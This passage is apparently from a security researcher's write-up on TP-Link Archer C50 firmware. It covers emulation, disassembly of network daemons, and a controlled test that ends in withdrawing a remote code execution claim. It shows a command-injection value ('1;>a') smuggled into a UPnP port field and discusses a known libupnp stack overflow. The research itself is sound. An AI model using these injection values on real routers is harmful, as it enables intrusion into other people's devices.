0x0008e420   lw    t9, -sym.imp.system(gp)
0x0008e428   jalr  t9                    ; system("upnpd -L br0 ... -en 1 ...")
```

The shipped default `UPnPCfg/Enable=1` feeds a `system()` that runs `upnpd` bound to `br0`, the LAN bridge. On paper the daemon is unauthenticated and LAN-reachable out of the box:



That is exactly why I could not leave the port-field effect as a paper claim. The next step was to make a real daemon start and fire the request at it.

**Then the part nobody writes down: getting it to run at all.** FirmAE is not a button. The checkout from my old notes was gone, so I cloned it fresh (commit `653565b`), built its Docker image, stood up a loopback-only Postgres 13 for its database, loaded the `loop` module under `pkexec`, ran a privileged host-networked container against the read-only vendor image, and hand-created the loop partition device after FirmAE's own discovery. That is all emulator plumbing, no firmware edits, and it is the real reason "I emulated it" is three words hiding most of an evening.

**And then the stock boot would not start the service.** This is the crux I have to be straight about. FirmAE extracted the image, built the disk, and ran init, but `upnpd` never came up: the run result was `false`, the process table had no `upnpd`, `/proc/net/tcp` and `/proc/net/udp` held no listeners, and TCP/1900 refused the connection. The serial console scrolled one line without end, `swRegRead: Operation not supported`. I traced that string back into `libcmm.so`:

```text
[0x000ae088]> pd 12 @ 0xae0bc          # libcmm.so: swRegRead
0x000ae0bc   lw    t9, -sym.imp.ioctl(gp)
0x000ae0c4   addiu v0, v0, 0x4578        ; "eth0"
0x000ae0f0   jalr  t9                     ; ioctl(fd, 0x89f1, &ifr)
0x000ae0fc   bne   v0, s0, 0xae120        ; s0 = -1; on success -> store the reg
0x000ae108   lw    t9, -sym.imp.perror(gp)
0x000ae110   jalr  t9                     ; perror("swRegRead")
```

`0x89f1` sits in the `SIOCDEVPRIVATE` ioctl range, a device-private call for the MediaTek switch. QEMU has no such switch, so `ioctl` returns -1, the branch at `0xae0fc` is not taken, `perror` prints `swRegRead: Operation not supported`, and the VLAN and switch bring-up loops on that line instead of finishing. The service chain never reaches a bind, which is exactly why stock FirmAE shows no `upnpd` and a refused TCP/1900. A positive-controlled search of FirmAE's own sources found no `0x89f1` handler, so this is the emulator missing vendor silicon, not a mistake in my config.



**So I switched it on by hand.** A second, diagnostic boot through `init=/firmadyne/preInit.sh` dropped me to a shell inside the guest. I ran `rcS`, removed the duplicate address FirmAE had left on `eth0.3`, and started the unmodified `/usr/bin/upnpd` manually with the exact arguments the real launcher uses. Only now did it serve `/gatedesc.xml` and accept quoted `AddPortMapping` actions, and only now could I run the real test, with a **negative control** beside the payload, the single technique that separates a finding from a hope. Same request, same daemon, two inputs:

```text
# benign control
NewInternalPort = 1
  -> result: /var/a does NOT exist

# candidate payload
NewInternalPort = 1;>a
  -> result: /var/a exists, zero bytes
  -> sink trace: 3 firmware "/bin/sh -c" invocations containing the input,
                 3 successful shell file opens
```

The field is annotated: the leading `1` satisfies the `atoi` port check, the `;` ends the first shell token, `>a` is a redirection that creates an empty file `a` in the daemon's working directory. The control (`1`) and the candidate (`1;>a`) differ only in the payload, so the appearance of `/var/a` is caused by the payload and nothing else. That is a real shell side effect.

And here is the part I made myself write down. **Both SOAP requests returned HTTP 200.** If I had used the HTTP response as my oracle, I would have "confirmed" the bug on the benign request too, because the response does not change. The only thing that distinguishes the payload is the file it creates and the `/bin/sh -c` lines in the instrumented trace. The response is not the evidence. The sink is.

**Before trusting any of that, two cross-checks, both negative.** First, is the newer hardware even affected? I pulled the current Archer C20 v6 build (`260811`, the same `upnpd` family) and read its `AddPortMapping` handler, where the C50 had nothing:

```text
0x00405a58   lw    a0, (var_38h)       ; the NewInternalPort string
0x00405a60   addiu a1, v0, -0x90       ; charset = "1234567890"
0x00405a64   jal   fcn.00405710        ; strlen(s) == strspn(s, charset) ?
0x00405a70   beqz  v0, 0x405ad8        ;   not all digits -> Invalid Args
```

`fcn.00405710` computes `strlen` and `strspn` over the field and returns whether they match. The port field's charset is `1234567890`, pure decimal, so `1;>a` (with its `;` and `>`) fails the span, `v0` comes back zero, and the handler jumps to Invalid Args before `atoi` ever runs. Its `tp_system` also screens metacharacters with `strpbrk` at `0x40c7f8`. The sibling is fixed, which is a reason not to generalize the C50 result. Second, I walked the IPv4 SSDP M-SEARCH path through `libupnp.so`, the other unauthenticated way into this code. The fastest way to bound that search is to ask what the library can even do:

```text
[0x...]> ii~system,popen,exec,fork     # exec-family imports in libupnp.so
(no results)
[0x...]> pd 4 @ 0xe494                  # the ONLY strcpy call in the library
0x0000e494   lw    v0, -sym.imp.strcpy(gp)
0x0000e4a0   jalr  t9                    ; strcpy(), inside UpnpResolveURL, not the datagram path
```

`libupnp.so` imports no `system`, `popen`, `exec`, or `fork` at all, so no SSDP datagram can spawn a command through this library, full stop. The `recvfrom` that reads the packet caps it at `0x9c3` bytes, and the single `strcpy` lives in `UpnpResolveURL` (URL resolution), away from the M-SEARCH receive path. I still walked the receive, parser, struct-copy, and reply sites for a memory-corruption route and found none in what I visited, but the import list already rules out the scarier class. Neither cross-check found a new bug, and both are written down precisely because a negative you went looking for is worth more than a positive you assumed.

So what do I actually have? A **bounded file-creation effect**: an empty file, created by a daemon I had to start by hand, in an emulator that could not boot that daemon on its own, and never shown to be reachable on a real router. The shipped config does enable UPnP (`UPnPCfg/Enable=1`), but "enabled in the config" and "started, bound, and reachable on a shipped unit" are different claims, and I could only reach the first.

There is also a ceiling I only understood later, re-reading the handler with a cleaner decompiler. The `atoi` on the port is a range check, not a normalizer. It rejects anything that does not read as 1 to 65535, but it stores the *original string*, not the integer. Pair that with the `strlen < 6` limit and the field's entire grammar is five bytes that start with a digit. `1;>a` fits. `1;telnetd` does not, and neither does any callback to a listener, because the instant you add a real command the field is longer than five bytes and the length check drops it before it is ever stored. That reconciled a contradiction in my own notes. An earlier live test on the physical router had fired callback and sleep payloads at this field, got nothing back, and I had written down "the ports are normalized." They are not normalized. The payloads were simply too long to survive the five-byte cap, so they were thrown away before they reached the sink. Same dead end, wrong reason, and a wrong reason is its own small lie until you go back and check it.

Measured against the original advisory, that is a demotion on every axis: from *unauthenticated remote code execution* to *a file got created when I hand-started the service under emulation and I cannot yet prove a real router ever exposes it*. The honest conclusion was to **withdraw the RCE claim**. Not soften it, not hedge it with "likely exploitable". Withdraw it, and keep only what the evidence supports.

Disproving your own finding feels like losing. It is the opposite. The earlier claim was a liability with my name on it. The negative control turned it into something true and small instead of something impressive and wrong.

## Act 7: every other daemon, and why none of them is the way in

One port-field is not the whole box. The device runs roughly two dozen network daemons, and the honest thing to do before writing "no remote code execution" is to check the ones that take unauthenticated input: `upnpd` and its `libupnp`, `tddp`, and `httpd`. I decompiled all of them with Ghidra and asked each the same two questions. Can attacker bytes reach a command? Can they smash a stack?

**Every command sink, enumerated.** The whole exec surface across the daemons is small once you look for every family and not just `system`. `upnpd` has one exec helper fed by the iptables rules we already walked, and nothing else command-shaped in the binary. `httpd` has exactly one `popen` in the entire file, and it runs `ifconfig ra0` on a fixed interface name, not request input. The interesting one is `tddp`, the TP-Link debug daemon on UDP 1040, because its lineage is the 2019 SR20 bug where a filename from the packet was handed to a shell. On this C50 `tddp` really does carry a shell wrapper, `tddp_execCmd`, which `vsprintf`s a string and runs it as `sh -c` through `execve("/bin/sh", ...)`:

```text
// tddp_execCmd @ 0x401670
vsprintf(cmdbuf, fmt, args);
fork();  // child:
  argv = {"sh", "-c", cmdbuf, 0};
  execve("/bin/sh", argv, 0);
```

It is a loaded gun. It has no callers. Not one, direct or through a pointer. The only live `system()` in `tddp` runs a fixed `"ated_tp &"` to enter RF-test mode, with no attacker string in it. So the gun sits in the binary, unwired. Worth saying out loud, because a `system`-only cross-reference walks straight past an `execve` wrapper, and if a future firmware ever connects a packet handler to that function it becomes an unauthenticated root shell on day one.

**The memory-safety pass came back the same way: defended, not absent.** `tddp`'s version-2 parser does have the classic shape, a 32-bit length pulled straight from the packet and used as a copy size. But the copy is bounded (the length is checked against the buffer before the copy runs) and it only happens after an HMAC-MD5 digest over the admin password. Bounded and authenticated. TP-Link got both right here, which the old SR20 and C1200 TDDP overflows did not. `libupnp` imports no `system`, `popen`, or `exec` at all, so no SSDP datagram can spawn a command through it, and its one `strcpy` lives outside the packet path. The one stack `strcpy` in `upnpd` copies a fixed interface name from the config, not the wire. After all of that, no reachable unauthenticated overflow.

**I ran the whole thing through Ghidra a second time on purpose,** to check that `r2` had not quietly misled me. It agreed on every mechanism. It settled one thing `r2` had left open, the `NewRemoteHost` field, which turns out to be fetched from the request and then never stored in the mapping node or passed to the command builder, only logged and freed, so it is not an injection point. And it caught the dead `execve` wrapper my first `system`-only pass had missed. Two decompilers, no contradictions, and the one that reads messier functions more cleanly earned its keep.

**The one thing that still bothers me is `wscd`.** The WPS daemon on this router statically links `libupnp` version 1.3.1, the copy from 2012, which carries CVE-2012-5958: an unauthenticated stack overflow in the SSDP code, root, with a public exploit. On the exact same device, the shared `libupnp.so` that `upnpd` uses is the patched 1.6.19. So the latest firmware, dated January 2025 and the newest TP-Link has ever shipped for this model, still carries a thirteen-year-old vulnerable copy of the library inside one daemon. The overflow is really in there, an unbounded `strcpy` of the SSDP search-target header into a stack buffer, on a binary with no stack canary and a writable, executable stack. What I cannot show is that it fires. Whether that daemon's SSDP listener is accepting packets on a stock unit is unresolved, and the only honest test is to send the oversized packet and watch `wscd` crash or call back, which needs the physical router. Two things are worth keeping even without that: the obvious test, a TCP port scan or a reply probe, is the *wrong instrument*, because the overflow is on the UDP receive path and fires before any reply is ever sent, so "nothing answered" proves nothing. And this is a known 2012 bug on an end-of-life model, so it is not a novel finding to chase. It is a thirteen-year-old library that should not be in a 2025 build, which is the part worth telling the vendor.

After all of it, the box held. No new remote code execution. The strongest unauthenticated primitive is a five-byte sliver into an `iptables` command, and a 2012 library bug I cannot prove reaches its socket. Writing that down is the result.

## What the whole thing taught me

No CVE, and eight lessons I would not trade for one:

1. **The multimeter is the exploit.** The entire hardware entry point came from measuring four pads instead of guessing them. The reading `3.337 V` and `0 Ω` did more work than any clever payload. Measure, then connect.
2. **Reachability gates everything.** `tmpd` on loopback, `upnpd` that would not bind under stock emulation, the `httpd` sink with no proven caller: a perfect bug on an unreachable path is worth nothing. Order of operations is which ports are actually open and bound first, mechanism second.
3. **A shipped default and a per-device secret are different objects.** The `/etc/passwd` MD5 is the same on every unit and safe to show. The `dropbearpwd` value belongs to one owner and gets redacted. Treating them the same way, in either direction, is a mistake.
4. **Serial is not the network.** Every root shell here came through a soldered cable. That is a physical-access result and I never let it masquerade as a remote one.
5. **The response is rarely the oracle.** Both the benign and the malicious SOAP request returned HTTP 200. The proof was a created file and a syscall trace, run against a control. If you cannot turn the signal off on demand with a benign input, you do not have a signal.
6. **Withdrawing a finding is a result.** The most valuable thing I produced across years on these routers was deleting an exploit claim that did not survive a negative control.
7. **Static and emulation are leads. The device is the verdict.** More than once I had a chain that was byte-perfect in the decompiler and dead on the bench: the port injection the disassembly said should fire, and the live router that stayed silent only because the real payload was one byte too long for the field. "It works in Ghidra" and "it works when you turn the router on" are different sentences, and only the second one counts. Until a callback or a crash proves it, the words are "lead, unverified on hardware," never "it works."
8. **A tool's silence is not evidence.** The port scan that found no second server, the M-SEARCH that drew no reply, the emulator that would not boot the daemon: each reads like "nothing there" and each can be the instrument failing instead of the target being safe. A TCP scan cannot see a bug on a UDP receive path. Before you trust a negative, make the same instrument produce a positive first.

Tools and prior work that carried this, credited plainly: `binwalk` and `unsquashfs` for firmware carving, `radare2` and Ghidra for the MIPS disassembly and decompilation (two decompilers, so a messy function in one was a clean read in the other), FirmAE for emulating an image I could no longer run on the physical unit, `john` for the hash, and the hack.lu "Snarf it!" talk I kept open while working through the extraction. I also checked the vendor page before writing any of this: the build I analyzed, dated January 2025, is the newest firmware TP-Link has ever shipped for this model. None of it found a CVE. All of it taught me to prove what I say.
